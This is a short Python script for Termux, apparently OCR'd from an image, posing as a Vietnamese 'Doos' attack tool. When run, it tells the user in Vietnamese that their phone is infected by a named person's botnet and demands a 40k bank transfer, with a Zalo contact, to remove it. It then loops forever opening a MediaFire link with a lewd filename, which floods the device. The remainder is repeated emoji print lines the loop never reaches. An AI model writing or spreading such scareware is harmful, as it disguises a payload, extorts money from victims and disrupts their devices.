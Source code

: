 import os

from os import system

import time

from time import sleep

import requests

import os, sys,time
print(" Đang Vào Tools Doos.")

sleep(0.2)

print(" Đang Vào Tools Doos....")

sleep(0.2)

print("Máy Bạn Đã Bị Dính BotNet Của Nguyễn Việt Hoà")

sleep(0.1)

print("Không Gỡ Được Đâu")

sleep(0.2)

print("Bank Anh 40k Ah Gỡ Cho")

sleep(0.1)

print(" Zalo : Nguyen Viet Hoa  ")

sleep(0.1)

print("Không Làm Đòi Có Ăn")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

while True:
    os.system('termux-open-url https://www.mediafire.com/file/f4mfj5owtzfrcgc/NudeOK.Com+(1).jpg/file?dkey=0hu48x2j976&r=838')

sleep(0.2)

print("Máy Bạn Đã Bị Dính BotNet Của Nguyễn Việt Hoà")

sleep(0.2)

print("Máy Bạn Đã Bị Dính BotNet Của Nguyễn Việt Hoà")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")
sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")
sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)
